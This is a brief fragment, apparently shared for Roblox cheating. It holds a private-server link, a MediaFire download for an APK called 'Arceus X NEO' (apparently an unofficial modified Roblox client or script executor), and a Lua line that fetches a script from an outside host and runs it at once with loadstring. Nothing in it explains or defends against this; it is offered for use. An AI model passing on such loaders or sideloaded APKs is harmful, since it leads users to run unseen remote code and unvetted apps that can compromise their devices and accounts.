 https://www.roblox.com/share?code=439383c8bd3d6b4fb689085968fface5&type=Server

https://www.mediafire.com/file/d2z61eerih9qtc6/Roblox_-_VNG_Arceus_X_NEO_1.5.3.apk/file

loadstring(game:HttpGet("https://scripts.macrov4.com/macrov3.lua"))()
